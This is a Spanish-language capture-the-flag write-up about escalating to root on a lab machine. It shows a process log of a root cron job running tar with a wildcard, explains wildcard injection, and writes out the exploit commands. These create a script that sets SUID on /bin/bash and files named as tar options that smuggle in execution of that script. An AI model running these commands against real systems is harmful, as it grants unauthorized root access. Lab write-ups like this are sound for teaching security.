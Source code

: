 ```bash
2025/02/07 00:33:31 CMD: UID=0     PID=1      | /sbin/init 
2025/02/07 00:33:32 CMD: UID=0     PID=6568   | 
2025/02/07 00:34:01 CMD: UID=0     PID=6569   | /usr/sbin/CRON -f -P 
2025/02/07 00:34:01 CMD: UID=0     PID=6570   | /usr/sbin/CRON -f -P 
2025/02/07 00:34:01 CMD: UID=0     PID=6571   | /bin/bash /tmp/backup.sh 
2025/02/07 00:34:01 CMD: UID=0     PID=6572   | /bin/bash /tmp/backup.sh 
2025/02/07 00:34:01 CMD: UID=0     PID=6573   | tar -zcf /home/leopoldo/Desktop/scripts/backup.tgz backup.tgz 
2025/02/07 00:34:01 CMD: UID=0     PID=6574   | /bin/sh -c gzip 
2025/02/07 00:35:01 CMD: UID=0     PID=6577   | /usr/sbin/CRON -f -P 
2025/02/07 00:35:01 CMD: UID=0     PID=6578   | /usr/sbin/CRON -f -P 
2025/02/07 00:35:01 CMD: UID=0     PID=6579   | /bin/sh -c /bin/bash /tmp/backup.sh 
2025/02/07 00:35:01 CMD: UID=0     PID=6580   | /bin/bash /tmp/backup.sh 
2025/02/07 00:35:01 CMD: UID=0     PID=6581   | tar -zcf /home/leopoldo/Desktop/scripts/backup.tgz backup.tgz 
2025/02/07 00:35:01 CMD: UID=0     PID=6582   | /bin/sh -c gzip
```
Parece que se ejecuta el script **backup.sh** y luego se comprime el archivo resultante, es bastante extraño, pero parece que ese script será con el que podamos escalar privilegios.

<br>

<h2 id="Wildcard">Aplicando Wildcard Injection para Modificar la Bash y Escalar Privilegios</h2>

Al analizar los scripts y los comandos que se estaban ejecutando con la ayuda de **ChatGPT**, me indico que es vulnerable a inyecciones con el **comando tar**.

E investigando un poco, encontramos el siguiente blog que nos explica sobre las **Wildcard Injection**:
* <a href="https://www-hackingarticles-in.translate.goog/exploiting-wildcard-for-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc" target="_blank">Exploiting Wildcard for Privilege Escalation</a>

Nos basaremos en el método 3 en donde asignan **permisos SUID** al binario que deseas, esto para darle **permisos SUID** a la **Bash**.

Pero antes, definamos que son las **Wildcard Injections**:

| **Wildcard Injections (Inyección de comodines en shell)** |
|:-----------:|
| *La Wildcard Injection es una vulnerabilidad en la que un atacante aprovecha los comodines (\*, ?, [ ]) en comandos de shell para ejecutar código malicioso. Esto suele ocurrir en comandos como tar, rm, mv, cp, chmod, entre otros.* |

<br>

Ahora si, apliquémoslo.

Todo este proceso debe ser dentro del directorio `/home/leopoldo/Desktop/scripts` porque el script **backup.sh** trabaja con ese directorio, por lo que las inyecciones se aplicaran aquí.

Primero, vamos a crear un script que tenga los comandos que le darán **permisos SUID** a la **Bash**:
```bash
leopoldo@shined:~/Desktop/scripts$ echo "chmod u+s /bin/bash" > pwned.sh
```

Ahora, vamos a inyectar nuestro script para que se ejecute al momento de que **backup.sh** sea ejecutado:
```bash
leopoldo@shined:~/Desktop/scripts$ echo "" > "--checkpoint-action=exec=sh pwned.sh"
leopoldo@shined:~/Desktop/scripts$ echo "" > --checkpoint=1
```
